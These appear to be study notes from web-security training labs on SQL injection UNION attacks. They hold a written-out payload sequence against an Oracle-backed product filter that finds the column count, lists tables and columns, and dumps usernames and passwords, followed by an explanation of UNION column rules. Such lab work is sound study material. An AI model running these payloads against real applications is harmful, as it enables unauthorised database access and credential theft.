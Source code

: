 Analysis:
1) Determine the number of columns
' order by 3-- -> internal server error

3 - 1 = 2

2) Find data type of columns
' UNION select 'a', 'a' from DUAL--
-> Oracle database
-> both columns accept type text

3) Output the list of tables in the database
' UNION SELECT table_name, NULL FROM all_tables--
USERS_JYPOMG

4) Output the column names of the users table
' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'USERS_JYPOMG'-- 

USERNAME_LDANZP
PASSWORD_DYZWEQ

5) Output the list of usernames/passwords
' UNION select USERNAME_LDANZP, PASSWORD_DYZWEQ from USERS_JYPOMG--
administrator

### lab_7. SQL injection UNION attack, determining the number of columns returned by the query
SQLi - Product category filter
End Goal: determine the number of columns returned by the query. 
Background (Union):
table1      table2
a | b       c | d 
-----       -----
1 , 2       2 , 3
3 , 4       4 , 5

Query #1: select a, b from table1
1,2
3,4

Query #2: select a, b from table1 UNION select c,d from table2
1,2
3,4
2,3
4,5

Rule: 
- The number and the order of the columns must be the same in all queries
- The data types must be compatible

SQLi attack (way #1):
select ? from table1 UNION select NULL
-error -> incorrect number of columns

select ? from table1 UNION select NULL, NULL, NULL
-200 response code -> correct number of columns
